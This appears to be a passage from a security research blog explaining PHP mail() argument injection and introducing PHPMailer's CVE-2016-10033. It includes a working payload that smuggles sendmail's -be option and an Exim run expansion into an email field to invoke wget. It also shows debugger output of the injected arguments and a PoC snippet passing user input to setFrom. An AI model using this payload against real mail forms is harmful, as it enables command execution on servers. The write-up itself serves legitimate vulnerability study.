Although mail() is not vulnerable to Command Injection, Argument Injection is possible (as a functionality pointed by the same name 'extra_arguments'). The use of mail() wildy in other libraries/software without precaution will be hazardous. We can consider mail() a dangerous function and I have added it to [Research-Guide](http://www.afolgado.com/researchguide/).

To demonstrate this, let's apply a working payload in the PHP mail function and see how it works (using our commandebugger bash script). Let's use the last payload from [PHP Argument Injection](http://www.afolgado.com/2017/06/10/phpcommandiargumenti/), since we know is being 'CommandI escaped', let's use the working payload for the Argument Injection:

```bash
Payload:
ss@email.com -be ${run{/usr/bin/wget${substr{10}{1}{$tod_log}}http://127.0.0.1/test}}

Debugger output:
root@ubuntu:/home/ubuntu# cat /tmp/outgoing-command 
Received: /usr/sbin/sendmail
Received: -fss@email.com
Received: -be
Received: ${run{/usr/bin/wget${substr{10}{1}{$tod_log}}http://127.0.0.1/test}}
Received:
Received:
```

As we can see this will perform correctly the Argument Injection over an uncontrolled PHP mail() function.


## CVE-2016-10033: The uncontrolled use of mail() by PHPMailer

Now we have explained the dangerous use of mail() in PHP, let's talk about real playgrounds: PHPMailer.
This third party library help developers to send emails with a lot of different configurations, we can install it in our PHP projects using for example PHP composer. As we can see in this PoC, second option/button send an email by crafting a PHPMailer object with default configurations:


\poc.php

```php
[...]
$mail = new PHPMailer;

$mail->setfrom($emailFrom,'Bob');
//$mail->From = $emailFrom; ==> If we use this, Sender will be empty.

$mail->addAddress($emailTo, 'Alice');

$mail->Body    = $body;

error_log($mail->Sender,0);

if(!$mail->send()) {
[...]
```
